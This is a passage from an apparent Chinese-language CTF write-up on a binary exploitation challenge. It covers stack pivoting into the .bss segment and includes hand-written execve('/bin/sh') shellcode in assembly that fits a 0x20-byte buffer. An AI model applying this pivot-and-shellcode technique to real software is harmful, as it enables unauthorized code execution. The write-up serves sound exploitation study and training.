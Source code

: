> 这是执行完`leave_ret`后的寄存器，可以看到栈顶将要执行read函数，栈底（`rbp`）已经转移到了`bss`段

**至此，我们已经完成了栈迁移的操作，已经将栈底转移到了bss段，也将执行read函数，可以读入shellcode到bss段了**

> 注：关于为什么rbp转移了就可以通过read读入到bss中
>
> ```c
> buf             = byte ptr -8
> lea     rax, [rbp+buf]
> mov     edx, 20h 		; nbytes
> mov     rsi, rax        ; buf
> mov     edi, 0          ; fd
> call    _read
> ```
>
> - 可以看到存储我们要读入区域的地址（buf，也就是第4行处）的寄存器（rsi）是由rax掌控的
>
> - 而rax又是由[rbp+buf]掌控的，buf又是一个固定的8字节偏移
> - 所以只需要移动rbp就可以掌控写入的地址

### 写入shellcode

即便是可以写入shllcode了，但是我们还是只有0x20字节的空间写入shellcode，常用的`asm(shellcraft.sh())`需要0x30字节，不够写入，所以需要我们手写一下简化的shellcode

#### **写shellcode**

可以看一下在执行完read之后一些比较关键的寄存器都是多少

![image-20250204144416284](./images/image-20250204144416284.png)

- RSI指向0x404098,将开始执行此处的指令
- RDI（EDI）为0

那么可以先写出来可以执行的汇编

```assembly
mov al, 0x3b		;	设置系统调用号，0x3b对应execve(al为rax的字节型)
mov	esi, edi		;	将edi赋给esi，此时edi=esi=0
mov	edi, 0x40201d	;	将0x40201d赋给edi，此时edi=0x40201d(/bin/sh的地址)
mov edx, esi		;	将esi赋给edx，此时esi=0
syscall				;	调用syscall
;	syscall([al]0x3b)->execve([rdi]0x40201d, [rsi]NULL, [rds]NULL)
```

